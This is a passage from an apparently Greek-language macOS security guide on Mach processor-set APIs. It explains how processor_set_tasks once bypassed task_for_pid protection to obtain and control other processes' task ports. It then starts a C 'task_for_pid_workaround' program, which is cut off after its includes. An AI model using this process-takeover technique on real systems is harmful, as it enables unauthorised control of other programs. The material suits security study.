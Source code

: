 ### Processors and Processor Set

Οι APIs του επεξεργαστή επιτρέπουν τον έλεγχο ενός μόνο λογικού επεξεργαστή καλώντας συναρτήσεις όπως `processor_start`, `processor_exit`, `processor_info`, `processor_get_assignment`...

Επιπλέον, οι APIs του **processor set** παρέχουν έναν τρόπο να ομαδοποιηθούν πολλοί επεξεργαστές σε μια ομάδα. Είναι δυνατόν να ανακτηθεί το προεπιλεγμένο σύνολο επεξεργαστών καλώντας **`processor_set_default`**.\
Αυτές είναι μερικές ενδιαφέρουσες APIs για αλληλεπίδραση με το σύνολο επεξεργαστών:

* `processor_set_statistics`
* `processor_set_tasks`: Επιστρέφει έναν πίνακα δικαιωμάτων αποστολής σε όλες τις διαδικασίες μέσα στο σύνολο επεξεργαστών
* `processor_set_threads`: Επιστρέφει έναν πίνακα δικαιωμάτων αποστολής σε όλα τα νήματα μέσα στο σύνολο επεξεργαστών
* `processor_set_stack_usage`
* `processor_set_info`

Όπως αναφέρθηκε σε [**αυτή την ανάρτηση**](https://reverse.put.as/2014/05/05/about-the-processor\_set\_tasks-access-to-kernel-memory-vulnerability/), στο παρελθόν αυτό επέτρεπε την παράκαμψη της προηγουμένως αναφερόμενης προστασίας για να αποκτήσει ports διαδικασίας σε άλλες διαδικασίες για να τις ελέγξει καλώντας **`processor_set_tasks`** και αποκτώντας ένα host port σε κάθε διαδικασία.\
Σήμερα χρειάζεστε root για να χρησιμοποιήσετε αυτή τη λειτουργία και αυτή είναι προστατευμένη, οπότε θα μπορείτε να αποκτήσετε αυτά τα ports μόνο σε μη προστατευμένες διαδικασίες.

Μπορείτε να το δοκιμάσετε με:

<details>

<summary><strong>processor_set_tasks code</strong></summary>
````c
// Maincpart fo the code from https://newosxbook.com/articles/PST2.html
//gcc ./port_pid.c -o port_pid

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/sysctl.h>
#include <libproc.h>
#include <mach/mach.h>
#include <errno.h>
#include <string.h>
#include <mach/exception_types.h>
#include <mach/mach_host.h>
#include <mach/host_priv.h>
#include <mach/processor_set.h>
#include <mach/mach_init.h>
#include <mach/mach_port.h>
#include <mach/vm_map.h>
#include <mach/task.h>
#include <mach/task_info.h>
#include <mach/mach_traps.h>
#include <mach/mach_error.h>
#include <mach/thread_act.h>
#include <mach/thread_info.h>
#include <mach-o/loader.h>
#include <mach-o/nlist.h>
#include <sys/ptrace.h>

mach_port_t task_for_pid_workaround(int Pid)
{

host_t        myhost = mach_host_self(); // host self is host priv if you're root anyway..
mach_port_t   psDefault;
mach_port_t   psDefault_control;

````